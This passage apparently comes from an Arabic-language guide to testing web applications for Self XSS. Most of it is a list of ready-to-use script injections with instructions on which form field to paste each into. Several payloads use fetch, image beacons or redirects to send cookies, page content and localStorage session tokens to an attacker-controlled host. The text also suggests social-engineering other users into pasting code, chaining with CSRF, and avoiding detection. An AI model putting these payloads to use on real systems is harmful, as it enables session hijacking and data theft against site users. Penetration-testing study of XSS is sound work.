 6. **تأكيد السياق وتقييم التصعيد (اختياري)**:
   - استخدم حقن تكشف سياق التنفيذ (مثل `<img src=x onerror="fetch('http://attacker.com/log?d='+document.domain)">`).
   - قيّم إمكانية تصعيد الثغرة:
     - **هندسة اجتماعية**: إقناع مستخدم آخر بإدخال شيفرة ضارة (مثل إرسال تعليمات عبر بريد إلكتروني).
     - **دمج مع ثغرات أخرى**: تحقق مما إذا كان يمكن استخدام Self XSS مع CSRF أو ثغرات أخرى لتنفيذ إجراءات غير مصرح بها.
     - **تأثير محدود**: لاحظ أن التأثير عادةً يقتصر على المستخدم الذي أدخل الشيفرة.
   - حافظ على التخفي بتجنب التنبيهات البصرية إذا كنت تختبر سياقات حساسة.

---

## جميع المحاولات الممكنة لاختبار ثغرة Self XSS
في اختبار Self XSS، المحاولات تركز على إدخال شيفرات JavaScript أو HTML في نقاط إدخال يتحكم بها المستخدم وتُعرض في متصفحه. سأقسم المحاولات إلى فئتين:
1. **الحقن اليدوية**: للاختبار اليدوي عبر نقاط الإدخال العرضة.
2. **الحقن للأتمتة**: للاستخدام مع سكربتات أو أدوات آلية.

### 1. الحقن اليدوية
تُستخدم هذه الحقن عند اختبار الثغرة يدويًا عبر إدخال شيفرة في حقول النماذج، إعدادات الملف الشخصي، أو معلمات URL. الهدف هو تنفيذ JavaScript في متصفح المستخدم.

#### أ. حقن باستخدام وسوم HTML
{ #XSS_exploit   }
إدراج وسوم HTML تحتوي على JavaScript مباشرة.
- **الحقن**: `<script>alert('XSS')</script>`
  - **الإدخال**: أدخل في حقل الاسم في الملف الشخصي: `<script>alert('XSS')</script>`
  - **كيف يعمل**: ينفذ تنبيهًا عند عرض الاسم.
  - **متى يُستخدم؟**: لتأكيد وجود ثغرة Self XSS.
- **الحقن**: `<script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>`
  - **الإدخال**: أدخل في حقل وصف الملف الشخصي: `<script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط إلى خادم المهاجم.
  - **متى يُستخدم؟**: لاختبار سرقة البيانات.
- **الحقن**: `<script>document.location='http://attacker.com'</script>`
  - **الإدخال**: أدخل في حقل معاينة نموذج: `<script>document.location='http://attacker.com'</script>`
  - **كيف يعمل**: يعيد توجيه المستخدم إلى موقع ضار.
  - **متى يُستخدم؟**: لاختبار إعادة التوجيه.
- **الحقن**: `<script>fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})</script>`
  - **الإدخال**: أدخل في حقل تحرير النص: `<script>fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})</script>`
  - **كيف يعمل**: يرسل محتوى الصفحة إلى الخادم.
  - **متى يُستخدم؟**: لاستخراج محتوى DOM.
- **الحقن**: `<script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>`
  - **الإدخال**: أدخل في حقل الإعدادات: `<script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>`
  - **كيف يعمل**: يرسل رمز الجلسة من `localStorage`.
  - **متى يُستخدم؟**: لسرقة بيانات التخزين.
